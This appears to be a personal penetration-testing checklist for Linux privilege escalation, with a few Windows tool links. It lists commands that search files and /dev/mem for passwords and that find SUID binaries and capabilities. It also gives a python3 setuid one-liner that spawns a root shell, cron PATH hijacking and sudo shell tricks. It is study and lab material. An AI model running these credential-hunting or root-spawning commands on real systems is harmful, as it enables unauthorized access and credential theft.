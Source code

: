 [[Linux PrivEsc]]
- [ ] Weak permission files. 
- [ ] Check the config files.
	- [ ] Files containing passwords
		```bash
		grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2>/dev/null
		find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
		# In memory passwords
		strings /dev/mem -n10 | grep -i PASS
		
		```

- [ ] Check for `adm and lxc` in `id` command output [escalation](https://blog.m0noc.com/2018/10/lxc-container-privilege-escalation-in.html?m=1)
- [ ] Check the SUID, SGID bits `find / -perm /4000 2>/dev/null` or `find / -perm -u=s -type f 2>/dev/null` and `find / -user root -perm -4000 2>/dev/null -ls`  >> GTFObins
- [ ] Check for `sudo -l`
- [ ] Check the capabilities - `getcap -r / 2>/dev/null` --- cap files
	- Python3: `python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
- [ ] Check for `uname -a` kernel exploit
- [ ] Check for cronjob '`cat /etc/crontab` and `crontab -l` (must)', (opt, backups and var) directory
- [ ] If there is script running then try `pspy64` for looking at the process.
- [ ] Use **Linpeas** if possible then create two outputs of it.
- [ ] Use [Linux suggestor](https://github.com/mzet-/linux-exploit-suggester).
- [ ] Use [Linux PrivChecker]([https://www.securitysift.com/download/linuxprivchecker.py](https://www.securitysift.com/download/linuxprivchecker.py))
- [ ] Found any ssh key?
- [ ] Check the bash history
- [ ] Found LD_PRELOAD?
- [ ] Check the services runnind as ROOT `ps aux | grep "^root"`
- [ ] If you Find out cron or anything that is running and doesnt have an absolute path the you can alter **PATH variable** for that file making it anywhere on the system. ==Check PATH vriable exploitation== [[Linux PrivEsc]] 
	- [ ] `PATH=/tmp:$PATH` if pyaload is in /tmp.
- [ ] Got crontab check the PATH variable else in other if PATH is not specified then you can modify the global PATH variable.
- [ ] SUDO ways to escalate: 
	- sudo -i
	- sudo -s
	- sudo passwd
	- sudo /bin/bash

- [ ] System running NFS with no_root_squash enabled ? [[Linux PrivEsc]]
- [ ] Intended SUID apache2 : when we pass any invalid config file to apache2 then it throws the error by showing first line of the files.
 	![[2021-09-11 19_49_58-4. Sudo.mp4 - VLC media player.png]]
- [ ] In the end cuz might crash machine Check for kernel exploits. (uname -a)


- [ ] Use [Winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [ ] Use [windows Exploit suggester](https://github.com/bitsadmin/wesng)